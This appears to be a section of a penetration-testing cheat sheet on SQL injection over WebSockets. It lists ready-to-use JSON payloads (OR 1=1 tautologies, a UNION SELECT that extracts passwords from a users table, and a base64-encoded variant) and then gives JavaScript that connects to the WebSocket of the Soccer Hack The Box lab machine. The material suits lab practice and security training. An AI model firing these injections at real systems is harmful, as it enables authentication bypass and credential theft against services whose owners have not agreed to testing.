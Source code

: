 
## WebSocket-Specific Payloads

### JSON Context Injection
```json
// Basic JSON structure
{"id": "1' OR '1'='1"}

// Nested JSON injection
{
    "user_data": {
        "id": "1' UNION SELECT password FROM users-- -"
    }
}

// Array-based injection
{
    "ids": ["1", "2' OR '1'='1-- -", "3"]
}
```

### Message Format Variations
```json
// Different parameter names
{"user_id": "1' OR 1=1-- -"}
{"session_id": "1' OR 1=1-- -"}
{"query": "1' OR 1=1-- -"}

// Multiple parameters
{
    "id": "1",
    "type": "user' OR 1=1-- -"
}

// Base64 encoded payloads
{"id": "MSBPUiAxPTEtLSAt"}  // 1 OR 1=1-- -
```

---

## Real-World Example: Soccer HTB

### Connection Setup
```javascript
// Target WebSocket from Soccer HTB
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");

ws.onopen = function(e) {
    console.log('Connected to soccer WebSocket');
}

ws.onmessage = function(e) {
    console.log('Response:', e.data);
}
```
